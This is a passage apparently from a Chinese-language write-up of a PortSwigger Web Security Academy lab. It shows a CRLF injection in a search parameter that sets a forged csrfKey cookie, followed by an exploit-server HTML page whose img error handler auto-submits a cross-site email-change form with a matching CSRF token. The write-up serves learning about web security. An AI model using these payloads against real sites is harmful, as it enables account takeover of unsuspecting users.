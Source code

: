 之後構造出 `?search=123%0D%0ASet-Cookie%3A%20csrfKey%3D123`，結果真的有成功注入新的 `Set-Cookie`

```
Set-Cookie: LastSearchTerm=123
Set-Cookie: csrfKey=123; Secure; HttpOnly
```

再調整一下

```js
encodeURIComponent(
  `123\r\nSet-Cookie: csrfKey=123; Secure; HttpOnly; SameSite=None`,
);
```

之後在 exploit-server 的 response body 設定以下 html

```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8" />
  </head>
  <body>
    <img
      src="https://0a6600b103cd1e658004032d001a001b.web-security-academy.net/?search=123%0D%0ASet-Cookie%3A%20csrfKey%3D0qvJBdaYYxUuVUAYlQepFG14kK5SGrpI%3B%20Secure%3B%20HttpOnly%3B%20SameSite%3DNone"
      onerror="document.forms[0].submit()"
    />
    <form
      action="https://0a6600b103cd1e658004032d001a001b.web-security-academy.net/my-account/change-email"
      method="POST"
    >
      <label for="email">Email:</label>
      <input
        type="email"
        id="email"
        name="email"
        value="wiener6@normal-user.net"
        required
      />
      <input
        type="hidden"
        name="csrf"
        value="kGn16kOexowOAt80CT30Stnkdkek3ySN"
        required
      />
      <button type="submit">Submit</button>
    </form>
  </body>
</html>
```
